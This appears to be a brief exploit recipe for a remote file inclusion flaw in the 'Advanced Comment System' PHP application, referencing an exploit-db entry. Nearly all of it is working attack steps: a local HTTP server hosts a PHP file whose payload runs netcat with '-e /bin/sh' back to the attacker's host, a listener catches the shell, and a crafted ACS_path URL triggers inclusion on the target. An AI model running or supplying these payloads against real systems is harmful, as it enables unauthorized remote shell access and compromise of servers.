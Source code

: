 ### Start local http server
```
python3 -m http.server 80
```

### Create php reverse shell and insert
```
vim tconfig.php
<?php system("nc <lhost> <lport> -e /bin/sh"); ?>
```

### Start listener
```
nc -lvp <lport>
```

### Trigger remote file inclusion
```
https://<rhost>/internal/advanced_comment_system/index.php?ACS_path=http://<lhost>/t  
```

### References
https://www.exploit-db.com/exploits/9623  

